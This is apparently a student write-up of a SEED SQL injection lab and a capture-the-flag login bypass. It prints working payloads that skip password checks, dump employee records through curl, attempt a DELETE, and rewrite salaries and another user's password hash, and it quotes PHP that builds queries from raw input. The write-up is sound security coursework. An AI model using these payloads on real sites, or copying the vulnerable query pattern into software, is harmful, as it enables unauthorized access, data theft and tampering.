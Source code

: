 # SQL Injection Attack Lab

## Task 1: Get Familiar with SQL Statements

To print all the profile information of the employee Alice, we need to select
everything from the table credential, where the column 'Name' is equal to
'Alice'. This can be achieved with the following query:

```sql
SELECT * FROM credential WHERE Name='Alice';
```

![task1_1](task1_1.png)

## Task 2: SQL Injection Attack on SELECT Statement

### Task 2.1: SQL Injection Attack from webpage

To perform this attack, our strategy will be to set the name to admin, and
comment out the rest of the query so that the password never gets checked.
To do this, we enter in the name input field *admin' #*, so the query becomes:

```sql
SELECT id, name, eid, salary, birth, ssn, address, email,
    nickname, Password
FROM credential
WHERE name= 'admin' #' and Password='$hashed_pwd';
```

Which is equivalent to:

```sql
SELECT id, name, eid, salary, birth, ssn, address, email,
    nickname, Password
FROM credential
WHERE name= 'admin';
```

Note: we use *#* instead of the traditional *--* to comment because, according
to the MySQL reference manual, the *--* comment "requires the second dash to be
followed by at least one whitespace or control character". Now lets test this
in the web page.

![task2_1](task2_1.png)

![task2_2](task2_2.png)

### Task 2.2: SQL Injection Attack from command line

Before encoding, the URL of our request should look like this:

```url
http://www.seed-server.com/unsafe_home.php?username=admin'#&Password=
```

For encoding, we just need to replace the *'* character with a %27 and the *#*
with %23. Executing the curl command:

```sh
$ curl http://www.seed-server.com/unsafe_home.php?username=admin%27+%23&Password=´
(...)
<table class='table table-striped table-bordered'><thead class='thead-dark'><tr><th scope='col'>Username</th><th scope='col'>EId</th><th scope='col'>Salary</th><th scope='col'>Birthday</th><th scope='col'>SSN</th><th scope='col'>Nickname</th><th scope='col'>Email</th><th scope='col'>Address</th><th scope='col'>Ph. Number</th></tr></thead><tbody><tr><th scope='row'> Alice</th><td>10000</td><td>20000</td><td>9/20</td><td>10211002</td><td></td><td></td><td></td><td></td></tr><tr><th scope='row'> Boby</th><td>20000</td><td>30000</td><td>4/20</td><td>10213352</td><td></td><td></td><td></td><td></td></tr><tr><th scope='row'> Ryan</th><td>30000</td><td>50000</td><td>4/10</td><td>98993524</td><td></td><td></td><td></td><td></td></tr><tr><th scope='row'> Samy</th><td>40000</td><td>90000</td><td>1/11</td><td>32193525</td><td></td><td></td><td></td><td></td></tr><tr><th scope='row'> Ted</th><td>50000</td><td>110000</td><td>11/3</td><td>32111111</td><td></td><td></td><td></td><td></td></tr><tr><th scope='row'> Admin</th><td>99999</td><td>400000</td><td>3/5</td><td>43254314</td><td></td><td></td><td></td><td></td></tr></tbody></table>
(...)
```

And we get as a response the HTML code, which contains the table with the
employee information.

### Task 2.3: Append a new SQL statement

We tried the following payload:

```sql
admin'; DELETE FROM credential WHERE name="Alice" #
```

![task2_3](task2_3.png)

But we get the following error message:

![task2_3b](task2_3b.png)

After looking at how MySQL queries work in php, we found that query() "sends a
unique query (multiple queries are not supported) to the currently active
database", so that explains why we get an error.

## Task 3: SQL Injection Attack on UPDATE Statement

### Task 3.1: Modify your own salary

To modify the salary, we tried the following payload:

```sql
Alice', salary=1000 WHERE name='Alice' #
```

![task3_1a](task3_1a.png)

And after checking out Alice's profile, we see that we successfuly changed her
salary to 1000.

![task3_1b](task3_1b.png)

### Task 3.2: Modify other people’s salary

To modify other people’s salary, we use a payload similar to the one used in
the last task, but replace the name with "Boby".

```sql
Alice', salary=1 WHERE name='Boby' #
```

![task3_2a](task3_2a.png)

After logging back in the admin's account, we see that salary of Boby is now
set to 1.

![task3_2b](task3_2b.png)

### Task 3.3: Modify other people’ password

We want to change Boby's password to "password123". To do this, we first need
to find the SHA1 hash of this string. We will use an online hasher for this.

![task3_3a](task3_3a.png)

Now, just need to replicate the last payload, but instead of changing the
salary, we must change the password to be equal to
"cbfdac6008f9cab4083784cbd1874f76618d2a97". Here is our payload:

```sql
Alice', password="cbfdac6008f9cab4083784cbd1874f76618d2a97" WHERE name='Boby' #
```

![task3_3b](task3_3b.png)

And sure enough, we are able to login to Boby's account using password123 as
the password.

![task3_3c](task3_3c.png)

![task3_3d](task3_3d.png)

## CTF 1

When we open the vulnerable webpage, we are greeted by a login form.

![ctf1a](ctf1a.png)

As we have seen in class, a very common vulnerabily in this type of forms, is
SQL Injection. If the webpage is vulnerable to SQLi, and we manage to exploit
it, we can completely bypass the login form and login as any user that exists in
the server database. Looking at the source code of the server, we found the
following vulnerable lines of code:

```php
$username = $_POST['username'];
$password = $_POST['password'];

$query = "SELECT username FROM user WHERE username = '".$username."' AND
                                            password = '".$password."'";
```

The query is built using unparsed input from the user. This is a clear
sign that it is vulnerable to SQLi. Now let's exploit it! Our goal is to login
as admin, so we will build a payload that sets the username to admin, but
bypasses the password check. It should look like this:

```sql
admin' --
```

This will result in the final query being:

```sql
SELECT username from user WHERE username = 'admin' -- AND password = ''
```

As we can see, the resulting query doesn't care what the password is since it
is commented out. Now let's test our payload:

![ctf1b](ctf1b.png)

And sure enough, we login as admin without knowing the password and get the
flag!

